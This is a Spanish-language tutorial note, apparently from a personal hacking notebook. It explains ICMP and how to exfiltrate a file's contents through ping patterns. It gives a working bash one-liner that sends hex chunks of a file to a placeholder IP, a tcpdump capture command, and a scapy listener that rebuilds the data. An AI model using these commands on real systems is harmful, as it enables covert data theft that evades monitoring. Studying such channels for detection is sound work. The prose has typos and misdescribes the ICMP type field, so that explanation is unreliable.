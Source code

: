 ----
- Tags: #teoria #practica 
----

# IMCP (Internet Menssager  Control Protocol)

### El protoclo de mansajes de control de internet o **ICMP** es parte del conjutno del protocolo IP. Es utilizado para enciar mensajes de error e información operatia. 

-----

# Exfiltración de data 

### Existe una técnica muy interesante para exfiltrar data haciendo uso de la herramienta **ping** y utilidades en python como el modulo **scapy** (pip3 install scapy), esto quiere decir que seríamos capaz de envíar el contenido de todo un archivo mediante traszas icmp para posteriormente hacinedo uso de **scapy** obtener su contenido.

----

# Concepto 

### La herramienta **ping** tiene un parametro el cual es **-p** que nos permite envíar un patrón personalizado que se envía en los paquetes de solicitud de ping. Mayormente se utiliza para verificar la integridad de los paquetes de respuesta recibidos. Cada vez qeu se envía un paquede de ping con un patrón personalizado, el sistema receptor debería devolver un paquete de respuesta que coincida con el patrón enviado. 

### Por lo que entendemos, este patrón puede ser **personalizado**, permitiendonos así envíar valores hexadecimales que querramos. 

### Por otro lado, la herramienta **xxd** nos permite pasar valores a hexadecimal, esta herramienta puede transformar a hexadecimal un archivo completo e incluso separarlo en partes, es decir, de 4 en 4, de 5 en 5, de 20 en 20, como querramos. 

### Si juntamos estos dos conceptos, la idea sería transformar un archivo en hexadecimal alternandolo en valores (Recomendado de 4 en 4) para recorrer cada par de estos 4 bytes y envíar una traza icmp con el patrón que corresponde a estos 4 bytes que íran alternando del archivo que se busca leer, para que de manera posterior con un script en python, haciendo uso de **scapy** poder transformar todas estas trazas a el contenido original del archivo. 

----

# Exfiltracion de data 

- ## Envío y recibimiento de trazas icmp 

### Como vimos, lo primero sería leer todo el archivo para separarlo en pares de 4 bytes y posteriormente envíar trazas icmp con el valor de estos bytes como patrón. 

```bash
xxd -p -c 4 {file_to_read} | while read line; do ping -c 1 -p $line {ip}; done 

for line in $(xxd -p -c 4 {file_to_read}); do ping -c 1 -p $line {ip}; done
```

### De manera alterna, previo a realizar esto, deberíamos estar almacenando todas las trazas icmp envíadas en un archivo de captura. 

```bash
sudo tcpdump -i {interfaz} icmp -n -v -w Captura.cap
```

### De esta manera estaremos en escucha de todas las trazas icmp recibidas por una determinada interfaz y estaremos alojando todas estas en un archivo llamado **Captura.cap** 

### Una vez realizado esto ya tendríamos todas las trazas almacenadas listas para ser leidas y obtener la información de interez en el patrón de cada una de estas, para eso usarémos **scapy**. 

-----

- ## Scapy

### Para leer un archivo con scapy podrémos hacer uso de la función **rdpcap**, posteriormente para ver cada paquete podríamos guardar el contenido arrojado de la función rdpcac en una variable la cual se convertirá en un array donde cada posición corresponde a un paquete. De esta manera pudiendo acceder a cada paquete, cada uno de estos contiene **layers** como Ether, IP, ICMP, etc. de manera que podríamos acceder a layers para acercarnos más a la información que nos interesa. Una vez que seleccionamos una layer podríamos listar con la función **ls** los atributos de las layers así como acceder a los atributos de las layers. 

```python
from scapy.all import *

packets = rdpcap("{path_file_.cap}")

# Acceder a distintos paquetes 
print(packets[0])

# Acceder a una layer de un paquete 
packets[0][ICMP]

# Listar los atributos de las layers
ls(packets[0][ICMP])

# Acceder a un atributo 
packets[0][ICMP].load
```

### En la layer **ICMP** atributo **load** tendríamos los patrónes envíados a travez de cada una de las trazas icmp transmitidas. Ahora, es **importante** tener en cuenta que los paquetes van a estar repetidos como también puede ser que no contenga la layer ICMP, de manera que para poder listar los contenidos de manera correcta nos deberíamos asegurar de que los paquetes no se repitan, esto lo podríamos realizar con la función **.type** la cual devuelce 8 o 0 dependiendo de si es impar o par. Mientras que el asegurarnos de que el paquete tenga la layer ICMP lo podemos hacer con la función **.haslayer**. 

```bash
# ........

# Verificar el tipo del paquete, si es par o impar
packet[0].type

# Verificar si el primer paquete tiene una determinada layer
packet[0].haslayer(ICMP)
```

### De esta manera podríamos utilizar toda esta información para realizar un script en python el cual se encargue de leer un archivo .cap y arrojarnos la información gracias a acceder a todos los patrónes de cada una de las trazas icmp alojadas en el archivo. 

```python
from scapy.all import * 
import signal, sys, readline, os

# Configuration 

readline.parse_and_bind("set editing-mode emacs")

# Ctrl + c

def ctrl_c(sig, frame):
    print("\n\n\t[!] Quiting...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c) 

# Data exfiltration

def sniffTrafic(interface):
    print("\n[+] Your file content: \n")
    sniff(iface=interface, prn=readICMPpatterns)
    

def readICMPpatterns(packet): 
    
    if packet.haslayer(ICMP) and packet[ICMP].type == 8:
        line = packet[ICMP].load[-4:].decode('utf-8')
        print(line, flush=True, end='')


if __name__ == "__main__": 
    
    if os.geteuid() == 0:
        interface = input("\n\t[!] Please insert the interface to listen: ")
        sniffTrafic(interface) 
    else: 
        print("\n\n\t[!] Please run the script as root ツ\n\n")

```